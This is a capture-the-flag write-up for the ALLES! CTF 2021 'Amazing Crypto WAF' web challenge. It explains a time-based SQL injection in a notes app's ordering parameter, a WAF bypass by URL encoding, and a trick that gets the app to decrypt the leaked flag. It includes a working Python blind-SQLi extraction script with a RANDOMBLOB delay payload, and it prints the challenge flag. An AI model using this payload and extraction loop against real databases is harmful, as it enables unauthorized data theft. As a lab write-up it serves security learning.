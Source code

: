 ```yaml
---
layout: post
title: Amazing Crypto WAF
category: ALLES! CTF 2021
---
```


Last week I was able to play for a few hours with my team [Super Gusser](https://ctftime.org/team/130817/), once i joined Discord and found that already half of the web challenge siced :D ,  I chose this challenge as a start and my teammate [sapra](https://twitter.com/0xsapra) also joined.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334574-a2d19944-8a0e-4c2f-b549-4335e6aa067a.png" alt="main" >

First the challenge was very simple, you can create an account / log in and you can also post some notes.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334741-9024bcb3-221b-4816-9ae2-af0cc5520123.png" alt="main" >

Based on all of this and checking the source code which was a good hint for us rather than blindly trying to check all kinds of possible bugs :) .

Later, after reading the code and checking, `sapra` mentions that there is a possible SQL injection which was a time based SQLi in notes function..

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335060-2ffb3b5a-ce02-4f6f-b807-a2fb04b46e9a.png" alt="main" >

basically we can inject after `order by timestamp`, using this sqli we can leak all data on sqlite database including the flag (the flag was located in the` flagger` account note)

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335349-f515758e-69bf-4164-8207-bc0ab3059ad3.png" alt="main" >

But !! if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336000-7684f027-e9c4-4675-aac7-c823c074d2e4.png" alt="main" >

So the issue here, how we can decrypt the flag, even though we can leak it, as the encryption is strong enough and can't be exploited, which means the only way is to find out how we can make the app decrypt the flag for us

The real problem is that if we post a note with the flag leaked, it will be encrypted again and decrypted once, which means we won't be able to get the clear text, but there was a weakness in the code, exactly in the encryption function

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336496-33f556af-b438-44d7-ab7c-fb6bc8e3f32d.png" alt="main" >

As the application does not encrypt `'uuid', 'id', 'pk', 'username', 'password'` and it does store it in plaintext, we can use this part and create an account with username as encrypted flag and once we are logged in the flag will be decrypted as the app decrypts all content of the response

```
response_data = decrypt_data(proxy_request.content)
```

So what's left here is just leak the flag and decrypt it, but the last step was to bypass the easy waf that detects certain words.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336897-499aeed0-6b69-4d82-bdbd-2d7b9fa23290.png" alt="main" >

Using a simple encoding can do the job here, which means we have all the steps we need :)

1 - `Leak "flagger" account notes ( flag note )`

2 - `Create an account using flag as username`

3 - `Read the flag from the home page`


```
import requests
import time

cookies = {
    'session': '116c6bf2d2de45a8d4a1bdac5524fc01.b810785f36c37cc8d4cf48b55c0e45716dd7ccb38f80ac19a08f2a41371711a',
}
#ENCRYPT:SzJEVHVzRmhHaHZmU2pYak0yQVZzQT09OmUzOVBwcXNVWWdhMEw0YXpCVDV2WHRwYnBPRXFaSVpqMFpQRk1BMXNzODE1UGxIUXhwb0hLY2diNGd2VTRYYz06REpPTWk0S01pdmZ3cXVxNFBGcklTdz09
flag_enc = "ENCRYPT:"

pos = len(flag_enc) + 1

for x in range( pos, 200 ):
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/=":
        t1 = time.time()
        url = "https://7b000000c73b13b1628e0950-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=asc,(CASE%20WHEN%20(select%20substr((select%20body%20from%20notes%20where%20user=(select%20uuid%20from%20users%20where%20username='flagger'))," + str(x) + ",1)%20=%20'" + str(i) + "')%20THEN%2012=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))%20ELSE%20timestamp%20END)%20desc%23"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 0.9:
            flag_enc += i
            break        
    print flag_enc
```

And here is the FLAG : `ALLES!{American_scientists_said,_dont_do_WAFs!}`

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132345085-727ea1ae-5177-4d63-aa78-d4a8082a59b5.png" alt="main" >


